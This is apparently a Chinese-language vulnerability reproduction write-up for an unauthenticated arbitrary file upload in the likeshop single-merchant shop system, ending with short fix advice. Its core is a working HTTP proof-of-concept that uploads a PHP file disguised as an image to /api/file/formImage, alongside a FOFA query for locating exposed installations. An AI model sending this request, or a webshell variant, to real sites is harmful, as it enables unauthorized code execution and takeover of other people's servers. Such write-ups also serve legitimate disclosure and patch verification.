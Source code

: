 
# likeshop 单商户商城系统 任意文件上传漏洞复现

### 0x01 产品简介

   likeshop 单商户标准商城系统适用于 B2C、单商户、自营商城场景。完美契合私域流量变现闭环交易使用。系统拥有丰富的营销玩法，强大的分销能力，支持电子面单和小程序直播等功能。无论运营还是二开都是性价比极高的 100% 开源商城系统。

### 0x02 漏洞概述

  likeshop 单商户标准商城系统/api/file/formImage 接口存在任意文件上传漏洞，由于系统对用户上传的文件类型未作任何过滤和限制，未授权的攻击者可以通过此接口上传恶意后门文件获取服务器信息或权限。

### 0x03 复现环境

FOFA：icon\_hash="874152924" && body="/pc/"

![f352cfeb763d4e9ea2712c0bde26ed8c.png](assets/1700701060-4849f1d854805759b0936522152b615f.png)

### 0x04 漏洞复现

PoC

```http
POST /api/file/formImage HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

![bc5be63a383f4772a14aa75cc377dde9.png](assets/1700701060-bc738e0487d7ae876b190c16a9bbd5a4.png) 验证

![d1e3310439b74a3ab8914c2ffd5f1703.png](assets/1700701060-2e7b5f2a9024ccd9fcc7d09eeef59757.png)

### 0x05 修复建议 

关闭互联网暴露面，上传模块设置白名单限制或过滤

升级至安全版本
